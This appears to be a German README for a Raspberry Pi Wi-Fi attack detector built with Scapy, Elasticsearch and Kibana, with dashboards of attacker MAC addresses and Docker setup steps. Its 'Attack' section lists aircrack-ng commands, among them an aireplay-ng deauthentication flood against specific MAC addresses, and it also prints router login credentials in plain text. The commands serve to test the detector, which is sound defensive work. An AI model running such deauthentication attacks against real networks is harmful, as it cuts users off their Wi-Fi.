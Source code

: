 # Eingesetzte Technologien
- Pi-Sniff > Python-Skript (Scapy)
    - Schranke mit aircrack-ng ausloten
- Server-DB > Elasticsearch
- Server-GUI > Kibana

# Dashboard
- Pie-Chart
- Heat-Map (MAC-Adresse Angreifer nach Zeit in bestimmter Granularität)
- Bar-Chart (MAC-Adresse x # Packete absolut)
- Bar-Chart (MAC-Adresse x # Packete normalisiert)

# Zugangsdaten
## Router
- Web-UI: root:supersecurepassword
- WLAN: DancingRainbows:supersecurepassword

# Attack
`airmon-ng start wlan0`
`airodump-ng wlan0`
`aireplay-ng -0 0 -a B8:27:EB:AC:05:0F -c 30:4B:07:ED:E3:8F wlan0`

# Python
## Install requirements
`pip install -r requirements.txt`

## Run
Skript muss mit `sudo` ausgeführt werden, um auf NIC zugreifen zu können.

# Docker
## Build image
`docker build -t pinkfluffyunicorn:dev -f "$(pwd)/Kali.Dockerfile" .`

## Start image
`docker run --privileged -it --network host pinkfluffyunicorn:dev /bin/bash`

## Aufräumen
Alle container zeigen

`docker ps`

Alle images zeigen

`docker images`

Bestimmte images löschen
(hashes durch `docker images` suchen)

`docker rmi imagehash1 imagehash2 imagehash3 ...`

oder mit Namen
`docker rmi pinkfluffyunicorn:dev`

# Docker Compose (wenn Image gebuildet wurde)

## .env

Beinhaltet Environment-Daten für das Docker-Compose-Skript.

## Run

`docker compose up -d`

## Attach

`docker attach <name>`
